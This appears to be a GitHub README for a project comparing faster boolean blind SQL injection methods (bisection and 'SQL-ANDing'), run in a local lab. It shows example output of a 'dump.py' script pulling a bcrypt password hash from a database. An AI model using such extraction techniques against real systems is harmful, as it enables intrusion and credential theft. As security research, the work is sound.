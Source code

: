 # Faster (Boolean) Blind SQLi

Inspired by this [paper](https://aircconline.com/csit/papers/vol10/csit101909.pdf) by Ruben Ventura. Watch my [YouTube Video]()

Data: [Google Sheets](https://docs.google.com/spreadsheets/d/1FdOYCAtdOS3T62VdZSJWqQMLSwO-H0sDMOxKyOotkRc/edit?usp=sharing)
- *Server:* HP Elitebook (**RAM: 32GB, CPU: Intel i7 vPro 8th Gen**) running **MariaDB + Apache2** on **local network**
- *Attacker:* PC (**RAM: 16GB, CPU: AMD Ryzen 7 5800X**)

Example output:
```bash
kali@kali$ python3 dump.py 12
[+] Oracle verified

--- BISECTION ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.071599 seconds

--- SQL-ANDING ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.069890 seconds
```